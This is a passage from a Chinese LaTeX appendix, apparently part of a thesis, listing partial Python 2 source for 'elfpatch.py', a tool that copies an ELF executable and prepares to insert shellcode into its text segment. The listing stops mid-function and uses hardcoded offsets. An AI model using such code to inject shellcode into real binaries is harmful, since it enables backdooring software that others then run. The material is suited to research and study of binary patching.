 \chapter{ELF注入工具源代码}
\label{python}
\begin{enumerate}
 \item elfpatch.py源代码
\end{enumerate}
\begin{lstlisting}[
  language={python},
]
import struct
import os
import sys
import shutil
from elf_helper import *
from elfbin import elfbin

class elfpatch():
    def __init__(self, FILE, OUTPUT,SHELLCODE,OBJECT_FILE):
        self.FILE = FILE
        self.OUTPUT = OUTPUT
        self.bin_file = open(self.FILE, "r+b")
        self.SHELLCODE = SHELLCODE
        self.OBJECT_FILE = OBJECT_FILE
        self.elfbin = elfbin(self.FILE)
    
    def patch_elf(self):
        shutil.copy2(self.FILE, self.OUTPUT)
        print "[*] Patching Binary"
        self.bin_file = open(self.OUTPUT, "r+b")

        if not self.OBJECT_FILE:
          shellcode = to_binary_code(self.SHELLCODE)
        else:
          shellcode = to_binary_code(get_text_section(self.OBJECT_FILE))
        newBuffer = len(shellcode)
        self.bin_file.seek(24, 0)

        sh_addr = 0x0
        offsetHold = 0x0
        sizeOfSegment = 0x0
        shellcode_vaddr = 0x0
        headerTracker = 0x0
        PAGE_SIZE = 4096
        for header, values in self.elfbin.prog_hdr.iteritems():
            if values['p_type'] == 0x1:
                print "[+] Found text segment"
                shellcode_vaddr = values['p_vaddr'] + values['p_filesz']
                oldentry = self.elfbin.e_entry
                headerTracker = header
                newOffset = values['p_offset'] + values['p_filesz']
                break
        shellcode_vaddr = 0x00308000 + 0xce186
        newOffset = 0x000060 + 0xce186
        self.bin_file.seek(0)
        file_1st_part = self.bin_file.read(newOffset)
        newSectionOffset = self.bin_file.tell()
        file_2nd_part = self.bin_file.read()


\end{lstlisting}

